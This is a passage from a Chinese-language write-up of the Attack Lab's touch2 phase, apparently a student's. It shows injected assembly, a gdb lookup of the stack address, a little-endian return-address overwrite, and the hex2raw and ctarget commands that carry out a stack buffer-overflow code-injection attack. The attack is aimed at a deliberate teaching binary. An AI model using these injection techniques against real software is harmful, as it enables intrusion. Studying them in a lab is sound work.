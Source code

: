 - 将cookie(0x59b997fa中的值推送到%rdi中

- 将touch2的地址push到栈中

- ret,取到touch2的地址

根据以上操作写出汇编代码,保存该代码为t2.s文件

```assembly
mov $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

接下来我们要得到机器代码(编译再反汇编得到机器代码指令)

输入以下指令

```
gcc -c -Og t2.s
objdump -d t2.o>t2.txt
```

可以得到汇编代码的机器指令:

![image-20240302014356466](https://cdn.jsdelivr.net/gh/zhzvite/picgoroom@img/img/202403020220772.png)

然后通过gdb挑选一个注入代码的位置,这里我们选择getbuf中的$rsp栈顶作为代码注入位置,通过gdb命令,打一个在getbuf的断点,探测到rsp的地址,即栈顶地址





![image-20240229135832513](https://cdn.jsdelivr.net/gh/zhzvite/picgoroom@img/img/202402291454240.png)

```
p $rsp=0x5561dc78
```

这样我们就可以开始编我们的进攻序列,在缓冲区中存放进攻指令,覆盖的地址填原来的栈顶,即在0x5561dc78注入代码进行进攻

![image-20240302014950119](https://cdn.jsdelivr.net/gh/zhzvite/picgoroom@img/img/202403020220816.png)

覆盖的地址要依照小端法逆序,而机器指令不用逆序,中间填充字符,当然可以考虑换一个代码注入位置.编完后我们要用hex2raw来转换进攻字节以便于生成进攻字符串

```
./hex2raw <sol2.txt>sol2r.txt
./ctarget -q -i sol2r.txt
```

然后提交会得到以下结果,圆满过关!

![image-20240302014929043](https://cdn.jsdelivr.net/gh/zhzvite/picgoroom@img/img/202403020220855.png)

或者我们可以选择不在那里注入代码,我们选择在test的栈帧内注入代码,即在0x5561dca8段注入代码!

![image-20240302015226085](https://cdn.jsdelivr.net/gh/zhzvite/picgoroom@img/img/202403020220891.png)

理论成立,实践开始!

圆满通关!
